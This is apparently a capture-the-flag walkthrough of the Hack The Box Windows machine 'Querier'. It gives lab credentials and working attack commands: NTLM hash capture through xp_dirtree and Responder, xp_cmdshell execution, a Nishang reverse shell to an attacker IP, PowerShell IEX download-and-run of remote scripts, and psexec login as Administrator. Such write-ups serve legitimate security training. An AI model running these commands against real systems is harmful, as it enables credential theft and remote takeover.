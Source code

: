 ```yaml
---
title: "Querier"
date: 2024-06-17
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "querier", "htb walkthrough", "hackthebox", "writeup"]
---
```


## Credentials

| Username   | Password         | Hash | Source            |
| ---------- | ---------------- | ---- | ----------------- |
| Reporting  | PcwTWTHRwryjc$c6 |      | SMB               |
| Luis       |                  |      | docProps/core.xml |
| msssql-svc | corporate568     |      | sql-responder     |

## Enumeration

### Nmap

```sh
PORT      STATE SERVICE       REASON  VERSION
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.10.125:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: QUERIER
|     DNS_Domain_Name: HTB.LOCAL
|     DNS_Computer_Name: QUERIER.HTB.LOCAL
|     DNS_Tree_Name: HTB.LOCAL
|_    Product_Version: 10.0.17763

| ms-sql-info: 
|   10.10.10.125:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### SMB

![screenshot](/assets/images/querier1.png)

![screenshot](/assets/images/querier2.png)

![screenshot](/assets/images/querier3.png)

#### Currency Volume Report.xlsm 

Unzip the file 

```sh
unzip 'Currency Volume Report.xlsm'
```

![screenshot](/assets/images/querier4.png)

Macros are usually stored at `xl/vbaProject.bin`. Use strings on it to find all readable strings.

```sh
strings x1/vbaProject.bin
```

![screenshot](/assets/images/querier5.png)

```sh
Uid=reporting;
Pwd=PcwTWTHRwryjc$c6
```

## SQL

```sh
Uid=reporting;
Pwd=PcwTWTHRwryjc$c6
```

```sh
impacket-mssqlclient reporting@10.10.10.125 -windows-auth
```

![screenshot](/assets/images/querier6.png)

We don't have `sa` privileges. Though we can't execute commands using `xp_cmdshell` we can steal hashes of the SQL service account by using `xp_dirtree` or `xp_fileexist`.

```sql
exec xp_dirtree '\\10.10.14.42\share\file'
```

and fire up Responder locally.

```sh
sudo responder -I tun0
```

![screenshot](/assets/images/querier7.png)

### Cracking the hash

![screenshot](/assets/images/querier8.png)

## Foothold

using the creds `mssql-svc : corporate568` we can now login to MSSQL. Let's check if we have SA permissions now.

```sh
impacket-mssqlclient mssql-svc@10.10.10.125 -windows-auth
```

![screenshot](/assets/images/querier9.png)

enable `xp_cmdshell`

```sql
enable_xp_cmdshell
xp_cmdshell whoami
```

![screenshot](/assets/images/querier10.png)

Now we can execute a TCP reverse shell from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download the script and add this line to the end of it. 

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.42 -Port 4444
```

![screenshot](/assets/images/querier11.png)

Run a simple HTTP server and execute it using powershell.

```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.42/Invoke-PowerShellTcp.ps1\')
```

![screenshot](/assets/images/querier12.png)

## Privilege Escalation

After getting a shell [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1) is used to enumerate further. Download the script and execute it on the server uinsg `Invoke-AllChecks`

```powershell
wget https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1
echo Invoke-AllChecks >> PowerUp.ps1

python3 -m http.server 80
iex(new-object.net.webclient).downloadstring("http://10.10.14.42/PowerUp.ps1")
```

![screenshot](/assets/images/querier13.png)

![screenshot](/assets/images/querier14.png)

Login as admin

```sh
impacket-psexec Administrator:'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125
```

![screenshot](/assets/images/querier15.png)
